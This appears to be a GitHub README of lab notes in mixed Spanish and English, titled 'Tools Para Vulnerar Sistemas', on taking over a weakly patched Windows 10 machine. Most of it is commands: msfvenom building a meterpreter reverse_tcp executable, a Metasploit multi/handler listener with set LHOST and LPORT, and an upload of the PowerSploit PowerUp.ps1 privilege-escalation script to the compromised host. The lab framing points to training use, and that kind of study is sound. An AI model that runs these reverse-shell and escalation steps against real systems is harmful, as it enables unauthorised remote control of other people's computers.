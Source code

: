 # Tools Para Vulnerar Sistemas
## SMB-Folder
---
Exploit Client-Side Vulnerabilities and Establish a VNC Session
Attackers use client-side vulnerabilities to gain access to the target machine. VNC (Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organizations throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.

This lab demonstrates the exploitation procedure enforced on a weakly patched Windows 10 machine that allows you to gain remote access to it through a remote desktop connection.

Here, we will see how attackers can exploit vulnerabilities in target systems to establish unauthorized VNC sessions using Metasploit and remotely control these targets.

```java

msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /root/Desktop/Test.exe
```


msfdb init && msfconsole
msfdb status




> LHOST Corresponde al IP REMOTA donde se va contectar la shell reversa

Type msfconsole and press Enter to launch the Metasploit framework.
In msfconsole, type use exploit/multi/handler and press Enter.



Now, set the payload, LHOST, and LPORT. To do so, use the below commands:

Type set payload windows/meterpreter/reverse_tcp and press Enter
Type set LHOST 10.10.10.13 and press Enter
Type set LPORT 444 and press Enter
After entering the above details, type exploit and press Enter to start the listener.

despues ejecutamos el arhivo exploit desde windows 



Now, type upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1 and press Enter. This command uploads the PowerSploit file (PowerUp.ps1) to the target system’s present working directory.